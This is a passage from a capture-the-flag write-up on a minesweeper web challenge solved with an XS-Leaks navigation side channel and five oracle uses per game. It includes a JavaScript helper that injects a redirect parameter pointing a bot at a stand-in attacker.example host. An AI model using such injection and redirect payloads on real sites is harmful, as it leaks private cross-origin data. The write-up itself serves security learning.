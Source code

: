 This application allows us to redirect the bot to `https://attacker.example/entry/<tile>`,
triggering the XSLeaks exploit, which will (eventually) print out "safe" or "bomb".

Finally, since sending these requests manually would be tiring, we can declare a
JavaScript function in our browser's console that simply takes the index of the tile
we want to reveal and sends the appropriate request:

```js
const oracle = (tile) => fetch(`/checkboard`, {
  method: 'POST',
  body: new URLSearchParams({
    cloneid: `something&redirect=//attacker.example/entry/${tile}`,
  }),
});
```

Running `oracle(0)` should, within about 10 seconds, tell us whether the tile
on the top-left corner is a bomb, printing this information to to the terminal
running our Node.js application.

### Play Strategies

As you might recall, in order to get the flag we need to get 20 perfect games,
which would be easy to do using the oracle in combination with some automated
solver.
However, I was too lazy to implement one, so I ended up playing the 20 games by
hand, which took way too long, but was definitely faster than trying to
implement a solver for it.
Here are some strategies that I adopted:

- First, I made a drawing of the board with the tile numbers, which made it
  easier to use the oracle on the correct tile without having to count each time;
- Second, it is possible to restart the board whenever we want, by calling the
  `/newboard` GET endpoint, without it incurring a loss, which is useful for when
  there is a 50/50 and we are out of oracles (recall that we have 5 per game);
- Third, I always start with the top-left corner and restart the board if it is
  a bomb, maximising the number of available oracles throughout the game;
- Fourth, it is important to keep in mind the aforementioned peculiarities
  of the board generation function, which help on certain 50/50 situations.

Using these strategies, it is quite easy to get the 20 wins, even if it takes
a while.
Below is a sample gameplay:

{{ img(caption="Sample gameplay animation using the oracle for tiles 0, 6, 42, 45 and 40", path="./using-oracle.gif") }}

After repeating the process 20 times, we get the flag on the home page:

{{ img(caption="The homepage showing the flag after winning 20 out of 20 games", path="./flag-view.png") }}

## Final Remarks

Solving this challenge makes us take a deep dive into navigation-related
side channels on the web, inferring information that would otherwise
not be possible to extract.
Even with all the sandboxing built into the browser, it is still not
enough to properly isolate different origins from each other.
